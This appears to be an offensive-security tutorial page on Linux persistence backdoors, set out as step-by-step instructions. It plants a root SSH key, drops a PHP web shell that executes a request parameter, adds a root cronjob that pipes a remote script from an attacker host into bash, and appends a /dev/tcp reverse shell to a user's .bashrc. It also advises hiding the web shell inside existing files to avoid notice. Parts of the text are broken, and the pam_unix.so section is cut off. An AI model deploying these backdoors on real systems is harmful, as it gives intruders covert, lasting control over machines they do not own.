

# Linux

## SSH keys

<figure><figcaption></figcaption></figure>

The first backdoor we are going to look at is : The SSH Backdoor

The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.&#x20;

So Let’s generate a set of ssh keys with ssh-keygen!

<figure><figcaption></figcaption></figure>

Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys

If the directory .ssh is not present, you can always create it using this command : "mkdir .ssh"

Now that we have left our backdoor, we can simply login as root!

Before doing so, give the private key the right permissions using : chmod 600 id\_rsa.

This is necessary because if we don't do it, ssh will complain about permissions not being secure enough on the key and will most likely , not let us use it.

After giving the key the right permissions, we can do : "ssh -i id\_rsa root@ip" to login into our desired machine!

One thing to note about this backdoor is:

1. &#x20;This backdoor isn't hidden at all. Anybody with the right permissions would be able to remove our ssh public key or the file authorized\_keys entirely.

## PHP Backdoors

If you get root access on a Linux host, you will most likely search for creds and or any useful information in the web root.

The web root is usually located in : /var/www/html

What you have to know is that, whatever you leave in /var/www/html, will be available for everybody to use in their browser.

Now that you know that, you can try creating a php file with any name and putting inside this piece of code:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>

This code simply takes the parameter "cmd" and will execute anything that is being given to that parameter.

Notice that we are using : "$_REQUEST['cmd'])", which means that you can pass that parameter either in GET or in POST data.

Now that file is saved and ready , we can try to query it.

If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php

If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/
```

1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## CronJob Backdoors

is backdoor consists of creating a cronjob!

If you take a look at your cronjobs file, which is /etc/cronjob, you would see something like this:


his represents all the tasks that are scheduled to run at some time on your machine.

Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.

Notice the 2 letters on top of the tasks : "m and h"<br>

Those are the letters that indicate if the task should run every hour or every minute.

In the example above, you can see that there is a "\*" symbol under the "h". This means that the following task would run every hour.

Now let's get to our backdoor!

Add this line into our cronjob file :

`* *     * * *   root    curl http://<yourip>:8080/shell | bash`

Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

We first use "curl" to download a file , and then we pipe it to "bash"

The contents of the "shell" file that we are using are simply :

```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/port 0>&1
```

***

We would have to run an HTTP server serving our shell.

You can achieve this by running : "python3 -m http.server 8080"<br>

Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!

\*Don't forget to listen on your specified port with "nc -nvlp \<port>"\*\\

Please note that this backdoor isn't really hidden because everyone can see it just by looking inside /etc/crontab.

## .bashrc Backdoors

If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.

So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```


One important thing is to always have your nc listener ready as you don't know when your user will log on. This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file. On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.


## pam\_unix.so Backdoors

The backdoor that we are going to look at is: The pam\_unix.so backdoor!

If you don't know what the file "pam\_unix.so" is , well , it simply is one of many files in Linux that is responsible for authentication.

Adding our own password. FOr unix like systems which have it



